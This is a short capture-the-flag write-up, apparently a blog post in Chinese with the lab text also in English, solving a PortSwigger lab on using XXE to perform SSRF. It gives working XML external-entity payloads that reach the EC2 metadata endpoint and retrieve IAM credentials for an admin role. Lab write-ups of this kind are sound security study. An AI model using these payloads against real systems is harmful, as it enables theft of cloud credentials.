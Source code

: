 ```yaml
---
layout: post
title: "Exploiting XXE to perform SSRF attacks"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_XXE
author: ""
tags: ['PortSwigger_Lab', 'XXE']
---
```






# Exploiting XXE to perform SSRF attacks


```
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the [XXE](https://portswigger.net/web-security/xxe) vulnerability to perform an [SSRF attack](https://portswigger.net/web-security/ssrf) that obtains the server's IAM secret access key from the EC2 metadata endpoint.





此實驗室具有“檢查庫存”功能，可解析 XML 輸入並在響應中返回任何意外值。

實驗室服務器在默認 URL 上運行（模擬的）EC2 元數據端點，即“http://169.254.169.254/”。 此端點可用於檢索有關實例的數據，其中一些可能是敏感的。

解決實驗室，利用[XXE](https://portswigger.net/web-security/xxe)漏洞進行[SSRF攻擊](https://portswigger.net/web-security/ssrf)，獲取 來自 EC2 元數據端點的服務器的 IAM 秘密訪問密鑰。



```



這題很簡單

它告訴我們這裡URL 有東西看
```
http://169.254.169.254/
```



然後又是 xml 實體
```

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>

```


這題我有沒搞懂原理，請求它會回顯latest，接者加上去會一直跟到重要的目錄，只能說網頁設計的應該是有問題。


最後會發現
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>



```


成功